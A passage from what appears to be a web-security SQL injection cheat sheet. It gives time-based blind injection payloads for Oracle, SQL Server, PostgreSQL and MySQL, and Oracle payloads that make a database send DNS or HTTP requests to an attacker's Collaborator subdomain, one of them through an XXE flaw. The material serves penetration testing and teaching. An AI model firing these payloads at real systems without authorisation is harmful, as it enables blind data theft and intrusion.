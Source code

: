 </table>

<h2>Conditional time delays</h2>
<p>
    You can test a single boolean condition and trigger a time delay if the condition is true.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual</code>
        </td>
    </tr>
    <tr>
        <th>
            Microsoft
        </th>
        <td>
            <code>IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'</code>
        </td>
    </tr>
    <tr>
        <th>
            PostgreSQL
        </th>
        <td>
            <code>SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END</code>
        </td>
    </tr>
    <tr>
        <th>
            MySQL
        </th>
        <td>
            <code>SELECT IF(YOUR-CONDITION-HERE,SLEEP(10),'a')</code>
        </td>
    </tr>
</table>

<h2>DNS lookup</h2>
<p>
    You can cause the database to perform a DNS lookup to an external domain. To do this, you will need to use <a href="/burp/documentation/desktop/tools/collaborator">Burp Collaborator</a> to generate a unique Burp Collaborator subdomain that you will use in your attack, and then poll the Collaborator server to confirm that a DNS lookup occurred.
</p>
<table>
    <tr>
        <th>
            Oracle
        </th>
        <td>
            <p>(<a href="/web-security/xxe">XXE</a>) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:</p>
            <code>SELECT EXTRACTVALUE(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"&gt; %remote;]&gt;'),'/l') FROM dual</code>
            <p>The following technique works on fully patched Oracle installations, but requires elevated privileges:</p>
            <code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code>
        </td>